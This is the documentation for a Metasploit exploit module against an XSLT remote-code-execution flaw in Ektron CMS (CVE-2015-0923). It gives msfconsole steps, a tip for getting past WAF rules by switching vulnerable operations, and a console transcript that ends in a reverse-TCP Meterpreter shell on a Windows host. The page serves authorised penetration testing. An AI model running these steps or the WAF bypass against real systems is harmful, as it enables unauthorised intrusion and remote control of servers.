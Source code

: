 ## Vulnerable Application

  Ektron Content Management System (CMS) 8.5 and 8.7 before 8.7sp2 and 9.0 before sp1 (according to CVE-2015-0923)

## Verification Steps

  Ektron has been acquired by another company and finding installers may prove difficult. But if you can build a test network the following may be used to verify:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/ektron_xslt_exec_ws```
  4. Do: ```set RHOST [target ip]```
  5. Do: ```check```
  6. You should receive a target vulnerable message.
  7. Do: ```run```
  8. You should get a shell.

  In our experience testing against 64 bit hosts should still pass the 'check' in step 6 and return a target vulnerable message. But when injecting shellcode into a new thread it may require the tester to adjust the payload as well. This may be done as follows:

  1. Do ```set PAYLOAD windows/x64/meterpreter```

## Options

  These are important but perhaps less-used options. There are quite a few other 'web' options available which will not be discussed due to their generality.

  **TARGETOP**

  There are multiple operations which are vulnerable to this XSLT bug. We have enumerated more (likely all) of the operations in ServerControlWS.asmx and provide testers with the ability to test the additional operations by setting this option to one of the following: ContentBlockEx, GetContentFlaggingString,GetMessagingString, GetBookmarkString, GetContentRatingString

  This value defaults to ContentBlockEx (from the original reports). Testers may find adjusting this value useful if defenders have included Web Application Firewall (WAF) rules to specifically filter ContentBlockEx as a mitigation in lieu of updating.

  **TARGETURI**

  This allows the tester to adjust the base-installation path. The default value is '/cms400min' but in our experience many deployments are simply the root path '/'.

## Scenarios

  Checking if a target is vulnerable.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable
  msf exploit(ektron_xslt_exec_ws) >
  ```

  Exploiting a Win7 x64 installation to obtain shell.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable.
  msf exploit(ektron_xslt_exec_ws) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
  PAYLOAD => windows/x64/meterpreter/reverse_tcp
  msf exploit(ektron_xslt_exec_ws) > set LHOST 192.168.1.50
  LHOST => 192.168.1.50
  msf exploit(ektron_xslt_exec_ws) > exploit
  [*] Started reverse TCP handler on 192.168.1.50:4444
  [*] Generating the EXE Payload and the XSLT...
  [*] Trying to run the xslt transformation...
  [+] Exploitation was successful
  [*] Sending stage (1189423 bytes) to 192.168.1.175
  [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.175:49169) at 2016-10-30 04:36:50 +0000

  meterpreter >
  ```
